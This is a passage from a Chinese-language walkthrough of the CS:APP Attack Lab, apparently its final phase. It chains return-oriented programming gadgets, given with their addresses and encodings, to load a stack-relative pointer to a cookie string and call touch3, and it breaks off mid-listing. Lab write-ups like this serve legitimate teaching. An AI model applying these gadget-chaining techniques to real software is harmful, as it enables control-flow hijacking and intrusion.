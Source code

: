 ```
89 d1 38 c9 c3
mov %edx, %ecx
cmp %cl, %cl
ret

<gadget7>->0x401a27
89 ce 38 c0 c3
mov %ecx, %esi
cmp %al, %al
ret
```

这样一来我们的任务就是组合这些gadget，使%rsp按照我们的想法进行偏移获取到cookie字符串的地址。然后通过ret跳转到touch3函数。

**想要利用add_xy，我们要以放入%rdi和%rsi的值为最终目标。**

%rsp的值可以通过以下过程放入%rdi中：
```
<gadget2>->0x401aad
mov %rsp, %rax #rax保存初始栈顶
nop
ret

<gadget4>->0x4019a2
mov %rax, %rdi #rdi保存初始栈顶
ret
```

假设偏移量为x，该偏移量可以通过以下过程放入%rsi中：
```
<gadget3>->0x4019cc
popq %rax             # rax = x, 从栈上获得我们预先设置的x值
nop
ret

<gadget5>->0x4019dd
mov %eax, %edx        # edx = x
nop
ret

<gadget8>->0x401a34
mov %edx, %ecx        # ecx = x
cmp %cl, %cl
ret

<gadget7>->0x401a27
mov %ecx, %esi        # esi = x
cmp %al, %al
ret
```
**注意以上两个过程是不可以交换的**，因为在操作途中使用的%edx，%esi，%ecx等寄存器的低32位会导致地址值被截断，导致最后的结果错误。我就是因为这个问题卡了好久。。。

综合一下，最后的汇编指令大致如下：
```asm
<gadget2>->0x401aad
mov %rsp, %rax #rax保存初始栈顶
nop
ret

<gadget4>->0x4019a2
mov %rax, %rdi #rdi保存初始栈顶
ret

<gadget3>->0x4019cc
popq %rax # rax = x
nop
```